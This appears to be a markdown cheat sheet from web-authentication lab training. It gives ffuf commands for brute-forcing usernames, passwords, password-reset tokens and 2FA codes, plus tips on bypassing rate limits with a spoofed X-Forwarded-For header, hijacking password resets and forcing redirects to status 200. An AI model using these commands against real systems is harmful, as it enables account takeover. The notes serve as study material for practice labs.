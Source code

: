>**ℹ️ Info:**
>
>Try to understand what changes when a valid and not-valid parameter is provided to tune our ffuf enumeration.
>
>Check for any type of brute force-able parameter (id, user, password, token, etc).
>
>Look if cookies or parameters can manually changed(base64, xxd, ascii hex, patterns, etc).

> ⚠️ **PAY ATTENTION:**
> 
> Try using and randomizing the header `X-Forwarded-For` to bypass rate limit.
> 
> When abusing the password reset function, check if you can modify the user parameter to change someone else's password due to lack of username verification in requests.

### Ffuf Commands for Enumeration  

| Command | Description |
|---------|-------------|
| `ffuf -u http://83.136.249.46:53635/index.php -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=invalid" -fr "Unknown user"` | User enumeration |
| `ffuf -u http://94.237.61.108:37212/index.php -w password.txt -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"` | Weird password enumeration |
| `ffuf -u http://83.136.254.165:42383/reset_password.php?token=FUZZ -w ./tokens.txt -fr "The provided token is invalid"` | Token enumeration |
| `ffuf -u http://83.136.253.184:48335/2fa.php -w ./tokens.txt -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=j8l5ro0fdqp23hv5l6v1sd9fpe" -d "otp=FUZZ" -fr "Invalid 2FA Code"` | 2FA Enumeration |

## Authentication Bypass via Direct Access
We can access protected information if the web page doesn't verify that the request is authenticated.

>**ℹ️ Info:**
>
> If we can see the desired page information when intercepting the request but get directed back to the main page, we can probably abuse it.
> 
> For that intercept the response to the request and change the response status code to 200. 

### Misc Commands
| Command | Description |
|---------|-------------|
| `seq -w 0 9999 > tokens.txt` | Create a number list from `0000` to `9999` |